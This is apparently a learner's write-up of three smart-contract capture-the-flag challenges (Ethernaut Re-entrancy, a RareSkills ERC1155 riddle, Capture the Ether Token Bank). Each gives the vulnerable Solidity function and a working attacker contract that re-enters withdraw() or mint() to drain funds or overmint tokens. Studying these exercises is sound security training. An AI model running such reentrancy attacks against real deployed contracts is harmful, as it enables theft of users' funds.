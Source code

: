 
## Day 5 Re-entrancy

### Ethernaut #10 Re-entrancy

The goal of this level is to take all the funds.  A few things to note:

- The contract uses Solidity 0.6.12, so it may be vunerable to over/underflow
- The ```withdraw()``` function sends funds to the msg.sender, perhaps calling an external contract.  
- The ```withdraw()``` function calls the external contract before updating state.  

```withdraw()``` is shown below:

```Java
  function withdraw(uint _amount) public {
    if(balances[msg.sender] >= _amount) {
      (bool result,) = msg.sender.call{value:_amount}("");
      if(result) {
        _amount;
      }
      balances[msg.sender] -= _amount;
    }
  }
```

A contract was written to do a reentrancy attack.  The attack starts with a normal call to ```withdraw()``` however in the attacking contract's receive() there is another withdraw() called.  This actually caused the attacker's balance to underflow as well which is surprising becasue OZ SafeMath was used.  


```Java
contract ReentranceAttacker {
  Reentrance target;

  constructor(address payable _targetAdd) public payable{
    require(msg.value == 1 ether);
    target = Reentrance(_targetAdd);
    target.donate{value: 1 ether}(address(this));
  }

  function doubleWithdraw() external {
    target.withdraw(1 ether);
  }

  receive() external payable {
    target.withdraw(1 ether);
  }
}
```

### RareSkills Riddles: ERC1155

This is a Hardhat test where the ojctive is to write an attacking contract that has a balance of 5.  
The victim contract is an ERC1155 which is a token.  The victim contract has a mint() method which will call the ERC1155 _mint() before updating the state, this seems like the best place for an attack. 

```Java
    function mint(uint256 id, bytes calldata data) external {
        require(amountMinted[msg.sender][id] <= 3, "max 3 NFTs");
        totalSupply[id]++;
        _mint(msg.sender, id, 1, data);
        amountMinted[msg.sender][id]++;
    }
```

The attack should call mint() then have a function which gets called by _mint() and that should call mint() again, we just need to keep track of how many times we call mint and make sure it is exactly five.  The function in our contract where we can call mint() again is the ERC1155Recevier.  We need to implement two functions ```onERC1155Received()``` and ```onERC1155BatchReceived().```  In ```onERC1155Received()``` we can call ```mint()``` four more times to get a total of five tokens.  A solution is given in the code below.  


```Java
// SPDX-License-Identifier: GPL-3.0
pragma solidity 0.8.15;

import "./Overmint1-ERC1155.sol";
import "hardhat/console.sol";
import "@openzeppelin/contracts/token/ERC1155/utils/ERC1155Receiver.sol";

contract Overmint1_ERC1155_Attacker is ERC1155Receiver {

    Overmint1_ERC1155 immutable victim;
    uint256 constant ID = 0;
    uint256 numMinted = 0;

    constructor(address _victimAdd){
        victim = Overmint1_ERC1155(_victimAdd);
    }

    function attack() external {
        numMinted = 1;
        victim.mint(ID, "");

        // transfer tokens from contract to the Boss
        victim.safeTransferFrom(address(this), msg.sender, ID, 5, "");
    }

    function onERC1155Received(address,address,uint256,uint256, bytes calldata)
    external override returns(bytes4) {
        // call mint()  again 
        if (numMinted < 5) {
            numMinted++;
            victim.mint(ID, "");
        }
        return this.onERC1155Received.selector;
    }

    function onERC1155BatchReceived(address, address, uint256[] calldata, uint256[] calldata, bytes calldata)
    external pure override returns(bytes4) {
        return this.onERC1155BatchReceived.selector;
    }
}
```

### Capture the Ether Token Bank 

There is a bank and a simple token contract.  The bank has deposits, and if someone issues a withdraw then they will issue tokens to the user.  The bank starts off with half of its deposits given to the player and half given to the deployer.  The objective is to drain the bank.  

```Java
    function withdraw(uint256 amount) public {
        require(balanceOf[msg.sender] >= amount);

        require(token.transfer(msg.sender, amount));
        balanceOf[msg.sender] -= amount;
    }
```

The most obvious vector of attack here is reentrancy during withdraw() becasue the state is updated last.  Similar to the prior exercise a fallback function can be called only if the origin is a contract. We need to create an attacker contract that will do a reentrancy attack.  The following contract worked.  

```Java
/**
The attacker is created first, then its address is given to the bank.  After the 
bank is deployed 
*/
contract Attacker {
    address public bankAdd;
    bool public fallBackCalled;

    function setBankAdd(address _bankAdd) external {
        bankAdd = _bankAdd;
    }

    function attack() external {
        fallBackCalled = false;
        TokenBankChallenge bank = TokenBankChallenge(bankAdd);
        bank.withdraw(500000000000000000000000);
    }

    function tokenFallback(address, uint256, bytes) public {
        if (!fallBackCalled) {
            fallBackCalled = true;
            TokenBankChallenge bank = TokenBankChallenge(bankAdd);
            bank.withdraw(500000000000000000000000);
        }
    }
}
```